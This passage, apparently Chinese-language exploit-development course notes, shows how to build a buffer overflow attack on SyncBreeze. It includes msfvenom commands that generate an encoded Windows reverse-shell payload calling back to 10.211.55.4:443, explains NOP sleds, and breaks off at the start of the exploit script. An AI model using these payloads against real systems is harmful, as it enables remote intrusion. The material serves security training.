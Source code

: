 ![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605369745536-6b94ad95-312d-4c3f-9487-cd659f25221c.png)

### 用 Metasploit 生成 Shellcode

MSFvenom 是Msfpayload 和Msfencode的结合，把这两种工具都放到了一个框架实例中。它可以生成shellcode有效负载，并使用各种不同的编码器对它们进行编码。

目前，msfvenom命令可以自动生成超过500个shellcode有效载荷选项，如下面统计所示:

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605370559564-5e34f431-a361-4e3c-96fd-1e908c11132d.png)

msfvenom命令非常容易使用。我们将使用-p生成一个名为windows/shell_reverse_tcp的基本负载，它的作用很像一个Netcat反向shell。这个有效负载最低限度地需要一个LHOST参数，该参数定义shell的目标IP地址。还可以定义一个指定回接端口的可选LPORT参数，我们将使用format标志-f来选择c格式的shell代码。

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.4 LPORT=443 -f c
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605370766698-aee5e512-d9a3-474a-8c30-941aab4afbdd.png)

这看起来很简单，但是如果我们仔细观察，我们可以在生成的shellcode中识别坏字符(例如空字节)。

当我们不能使用通用shellcode时，我们必须对它进行编码以适应我们的目标开发环境。这可能意味着将我们的shell代码转换为纯字母数字的有效负载，去除不好的字符，等等。

我们将使用一个先进的多态编码器shikata_ga_nai,编码我们的shellcode，也将用-b选项通知编码器已知的坏字符:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.211.55.4 LPORT=443 -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```

![image.png](https://cdn.nlark.com/yuque/0/2020/png/2398693/1605372212932-2e667f90-3e48-4efd-b27a-88064bed363e.png)

最后生成的shellcode不包含坏字符，然后大小为351个字节，shellcode执行后会对10.211.55.4主机上的443端口发起一个反向shell。

### 获取shell

从SyncBreeze获得一个反向shell现在应该很简单，只需用shellcode替换我们的D缓冲区并启动我们的攻击。

然而，在这个特殊情况下，我们还有另一个障碍需要克服。在前面的步骤中，我们使用msfvenom生成了一个经过编码的shellcode。由于编码的原因，shellcode不是直接可执行的，因此被一个解码器存根作为前缀。这个存根的工作是遍历编码的shellcode字节，并将它们解码回原始的可执行形式。为了执行这项任务，解码器需要在内存中收集它的地址，并从那里向前查找几个字节，以找到它需要解码的已编码的shellcode。作为收集解码器存根在内存中的位置过程的一部分，代码执行汇编指令序列，这些指令通常称为GetPC例程。这实际上是一个简短的例程，它将EIP寄存器(有时称为程序计数器或PC)的值移动到另一个寄存器。

与其他GetPC例程一样，shikata_ga_nai使用的那些例程有一个不幸的副作用，即在堆栈顶部或周围写入一些数据。这最终会破坏ESP寄存器所指向的地址附近的至少几个字节。不幸的是，堆栈上的这个小变化对我们来说是个问题，因为解码器正好从ESP寄存器所指向的地址开始。简而言之，GetPC例程的执行最终更改了解码器本身的几个字节(可能还更改了已编码的shell代码)，这最终导致解码过程失败并使目标进程崩溃。

避免这个问题的一种方法是，在执行解码器之前，使用汇编指令(如DEC ESP, SUB ESP, 0xXX)反向调整ESP。或者，我们可以为JMP ESP创建一个宽的“着陆平台”，这样当执行落在这个平台的任何地方时，它将继续在我们的负载上。这听起来可能很复杂，但我们只是在载荷之前加上一系列无操作(或NOP)指令，其操作码值为0x90。顾名思义，这些指令什么都不做，只是简单地将执行传递给下一条指令。通过这种方式使用，这些指令(也被定义为NOP雪橇或NOP滑梯)将让CPU通过NOP“滑梯”，直到到达有效负载。

在这两种情况下，当执行到达shellcode解码器时，堆栈指针指向离它足够远的地方，以便在GetPC例程覆盖堆栈上的一些字节时不会破坏shellcode。

> 这里大概的意思就是，因为对shellcode进行了编码，所以不能直接运行，会在对方机器上进行接码，而解码的同时有可能会导致ESP周围的值发生变化，所以我么可以采用NOP指令用来填充

最终的利用代码如下：

```
#! /usr/bin/python
import socket

try:
    print("Sending evil buffer...")
```